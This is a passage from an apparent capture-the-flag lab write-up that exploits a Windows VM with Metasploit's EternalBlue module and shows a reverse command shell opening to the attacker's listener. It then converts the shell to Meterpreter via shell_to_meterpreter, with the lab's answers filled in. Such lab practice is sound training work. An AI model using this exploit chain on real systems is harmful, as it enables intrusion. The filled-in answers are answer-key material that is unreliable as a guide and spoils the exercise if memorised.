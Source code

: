 ```
[+] 10.10.14.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.14.146:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Command shell session 1 opened (10.9.203.24:4444 -> 10.10.14.146:49219) at 2024-05-23 21:29:19 +0700


C:\Windows\system32>
```

### • Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

> _No answer needed_

```
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

## Task 3 Escalate

### • If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

> post/multi/manage/shell_to_meterpreter

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) >
```

### • Select this (use MODULE_PATH). Show options, what option are we required to change?

> SESSION

### • Set the required option, you may need to list all of the sessions to find your target here.

> _No answer needed_

### • Run! If this doesn't work, try completing the exploit from the previous task once more.

> _No answer needed_
